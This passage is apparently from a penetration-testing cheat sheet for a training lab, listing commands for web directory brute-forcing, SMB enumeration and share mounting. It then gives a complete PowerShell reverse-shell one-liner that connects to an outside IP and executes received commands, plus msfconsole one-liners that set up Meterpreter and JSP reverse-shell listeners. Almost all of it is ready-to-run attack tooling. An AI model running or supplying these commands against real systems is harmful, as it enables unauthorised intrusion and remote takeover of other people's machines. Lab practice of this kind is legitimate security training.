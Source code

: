 ```bash
gobuster dir -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.11.1.115/webmail/src -x php -t 12
```

## SMB

Nmap SMB NSE scripts
```bash
nmap -p139,445 --script smb-vuln-* $IP
nmap -p139,445 --script=smb-enum-shares.nse,smb-enum-users.nse $IP
```
SMBMap
```bash
smbmap -H $IP
smbmap -H $IP -u anonymous
smbmap [-L] [-r] -H $IP -u $username -p $password -d $workgroup
smbmap -H $IP -R --depth 5
```

SMBClient
```bash
smbclient -L $IP
smbclient //$IP/tmp
smbclient \\\\$IP\\ipc$ -U $username 
smbclient //$IP/ipc$ -U $username
```

We can mount a network share for easier enumeration.
```bash
mount -t cifs //$IP/$shared_folder $mount_folder
```

# Reverse shells

PowerShell one liner
```powershell
powershell.exe -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.210',443);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

Msfconsole listener setup in one line
```bash
# Meterpreter
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 443; run; exit -y"

# Java
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD java/jsp_shell_reverse_tcp; set LHOST tun0; set LPORT 443; run; exit -y"
```
